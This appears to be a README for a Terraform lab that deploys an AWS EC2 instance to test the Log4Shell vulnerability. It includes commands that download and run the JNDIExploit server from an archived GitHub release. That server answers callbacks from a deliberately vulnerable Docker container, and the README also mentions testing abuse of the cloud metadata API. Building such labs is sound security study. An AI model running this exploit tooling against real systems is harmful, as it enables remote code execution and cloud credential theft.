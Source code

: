 

## Customize this deployment

### Credentials 
- `provider.tf` file should outline path to aws config file along with the named profile you want to use.

- Input the public key you want to use to connect to the EC2 instance in the `variables.tf` file as the value of `public_key`.

### Naming Things 
- The names of all AWS resouces are prefixed with 'kat-' in the `main.tf` file.  If you don't want your resouces named after me, find and replace that value.


## Steps to Deployment

- Ensure you have a valid aws session credential
	``aws sso login --profile [named-prodile]``

- Terraform
	`terraform init`
	`terraform plan`
	`terraform apply --auto-approve`

## Connecting to your EC2 Instance

- You can use EC2 Instance Connect (SSH from the Browser) to connect to your EC2 instance. Ingress rules allowing this are include in the deployment
- You can directly SSH to the EC2 instance if you configured a public key.  The IP address is which was used to deploy the resources is automatically allowed to SSH into the EC2 instance.

## Getting the Java Exploit Server choochin'

Installation of the java server and environment during deployment is not working.  Once your EC2 is up and running, you'll want to install the following:
- `sudo yum install java-1.8.0-openjdk -y`
- `wget http://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`
- `unzip JNDIExploit.v1.2.zip`
- `MY_IP=$(hostname -I | awk '{print $1}')`
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i $MY_IP -p 8888`

The JNDI Exploit Server needs to be running and receiving callbacks from the vulnerable docker container.

## Vulnarable Docker Container
This container will be listenting on 127.0.0.1:8080.
If you want to install curl in the container for testing the abuse of the metadata api:
`sudo docker exec vulnerable-app apk add curl`

## Testing Exploits

Instructions for starting and operating the [JNDI Exploit Server](http://web.archive.org/web/20211210111026/https://github.com/feihong-cs/JNDIExploit)

Instructions operating against the [vulnerable docker container](https://github.com/christophetd/log4shell-vulnerable-app)








